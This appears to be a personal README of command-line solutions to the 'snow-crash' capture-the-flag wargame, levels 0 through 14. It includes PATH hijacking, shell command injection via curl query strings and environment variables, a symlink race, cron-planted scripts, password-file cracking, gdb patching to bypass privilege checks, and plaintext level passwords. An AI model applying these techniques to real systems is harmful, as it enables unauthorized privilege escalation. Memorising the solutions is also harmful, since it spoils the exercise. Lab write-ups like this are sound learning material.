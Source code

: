 # snow-crash

# Levels:

## 0.
getent passwd
ll -R / 2>dev/null | grep flag00
find / -user flag00 2>/dev/null

cat /usr/sbin/john
su flag00
getflag
su level01

## 1.
find / -name 'passwd' 2>/dev/null
cat /etc/passwd | grep flag01
scp -P 5000 level00@192.168.56.1:/../../../etc/passwd . # scp - secure copy
.\Downloads\john\run\john.exe --show .\passwd

## 2.
scp -P 5000 scp://level02@localhost/level02.pcap C:/Users/Vlad/snow-crash
chmod 777 level02.pcap 
# open Wireshark -> any TCP packet -> follow -> TCP Stream : ft_waNDReL0L
tcpdump -n -r level02.pcap -Xq

## 3.
ll # level03 can execute other commands with high privelage
ltrace ./level03 # display dynamic library  (.so or .a) calls
env # the list of environmental variables
echo getflag > /tmp/echo && chmod +x /tmp/echo # aliasing getflag
export PATH=/tmp:$PATH # start from the directory with alias
./level03

## 4.
netstat -tl
curl localhost:4747?x=\`getflag\`
curl 'localhost:4747?x=`getflag`'

## 5.
find / -name 'level05'  2>/dev/null
env

cat /var/mail/level05 # open crontab file
cat $MAIL

cat  /usr/sbin/openarenaserver
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && sleep 121 && cat /tmp/flag 
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && cat /tmp/flag 

## 6.
echo '[x {${exec(getflag)}}]' > /tmp/boo ; ./level06 /tmp/boo
echo '[x ${`getflag`}]' > /tmp/boo ; ./level06 /tmp/boo

## 7.
ltrace ./level07
echo $LOGNAME
export LOGNAME=\`getflag\` ; ./level07
export LOGNAME='$(getflag)' ; ./level07

## 8.
ltrace ./level08 token
chmod 777 .
ln -s token my_tok && ./level08 my_tok
su flag08 #quif5eloekouj29ke0vouxean
getflag

## 9.
scp -P 5000 scp://level09@localhost/token C:/Users/Vlad/snow-crash
python break.py `cat token`

su flag09 F3iji1ju5yuevaus41q1afiuq
getflag

## 10.
strings ./level10 | grep 'Connecting' # shows the port
while true; do ln -fs ~/level10 /tmp/fake; ln -fs ~/token /tmp/fake; done # alternation of links between two files
while true; do ./level10 /tmp/fake 127.0.0.1; done # using binary
nc -l 6969 

## 11.
cat level11.lua
nc -zv localhost 5151 # scan if port is open, not necessary, -z - port scanning
nc localhost 5151 # create TCP connection
; getflag > /tmp/f11 # send in password

$(getflag) > /tmp/f11 # send in password
cat /tmp/f11

## 12.
echo "getflag > /tmp/token" > /tmp/XX && chmod +x /tmp/XX
curl  http://localhost:4646?x='$(/*/XX)'
#curl http://localhost:4646?x=\`/*/XX\`

cat /tmp/token

## 13.
./ltrace ./level13
id # get your id
objdump -d level13

gdb ./level13
b getuid
r # run

set $eax=4242 # or 0x1092 - change register
c # continue

#or
jump *0x80485cb

## 14.
cat /etc/passwd # get the number of the level
id

gdb getflag
disass main

b *(main + 72) # overcome prtace defence
b *(main + 444) # put correct ID in eax
r
info register $eax # -1
set $eax=0
n # next step
set $eax=3014
c